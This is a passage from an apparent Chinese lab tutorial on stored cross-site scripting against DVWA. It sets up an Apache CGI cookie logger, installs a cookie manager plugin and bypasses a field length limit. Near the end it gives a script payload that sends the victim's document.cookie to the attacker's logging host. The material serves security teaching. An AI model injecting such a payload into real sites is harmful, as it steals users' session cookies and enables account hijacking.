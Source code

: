 接着我们需要使用 `a2enmod cgi` 来启动 apache2 的 cgi 模块。

配置完成后，我们便可通过 `service apache2 start`启动 apache

![start-cgi-apache2](https://doc.shiyanlou.com/document-uid113508labid2409timestamp1482230972896.png/wm)

成功启动之后，我们可以使用 Firefox 浏览器来访问 `http://192.168.122.101/cgi-bin/logit.pl` 来验证我们是否正确配置了：

![proof-config](https://doc.shiyanlou.com/document-uid113508labid2409timestamp1482230982503.png/wm)

若是访问的时候出现了 404 说明刚刚我们在 apache2.conf 配置文件中添加该目录的访问配置没有成功。

若是访问的时候出现了 403 说明刚刚在配置目录权限时 `Require all granted` 没有生效。

如此我们便完成了第一步，能够接收 cookie，接着为了能够切换 cookie 我们需要在 Firefox 上安装 cookie_manager 的插件。

我们通过这样的命令在终端中下载该插件的安装包（注意在 shiyanlou 终端中下载，别在 kali 虚拟机中下载）：

```
wget http://labfile.oss.aliyuncs.com/courses/717/cookies_manager-1.14.3-fx.xpi	
```

![download-xpi](https://doc.shiyanlou.com/document-uid113508labid2409timestamp1482230993485.png/wm)

然后我们在 Firefox 中安装该插件：

找到 Firefox 的设置

![install-xpi-1](https://doc.shiyanlou.com/document-uid113508labid2409timestamp1482231016543.png/wm)

然后添加本地的插件安装包：

![install-xpi-2.png](https://doc.shiyanlou.com/document-uid113508labid2409timestamp1482231034254.png/wm)
找到刚刚我们下载的安装文件：

![install-xpi-3.png](https://doc.shiyanlou.com/document-uid113508labid2409timestamp1482231042871.png/wm)

选择安装该插件：

![install-xpi-4.png](https://doc.shiyanlou.com/document-uid113508labid2409timestamp1482231050757.png/wm)

安装成功之后会提示我们重启浏览器，重启便是，由此我们便做好了所有的准备工作。

然后我们再次进入 DVWA 为我们提供的 xss stored 环境中，上文我们提到过输入框对字数有所限制，但是对我们而言是不够的，我们需要修改一下，按 F12 打开调试工具，选择查看器，通过选择器选择我们的文本框，看到文本框相关的 HTML 代码，将 50 的限制修改到 200：

![config-html](https://doc.shiyanlou.com/document-uid113508labid2409timestamp1482231061803.png/wm)

然后我们输入这样的信息：

```
<SCRIPT>document.location='http://192.168.122.101/cgi-bin/logit.pl?'+document.cookie</SCRIPT>
```

![insert-script](https://doc.shiyanlou.com/document-uid113508labid2409timestamp1482231072162.png/wm)

然后我们点击提交，我们会看到页面跳转到了我们接收 cookie 的地方：
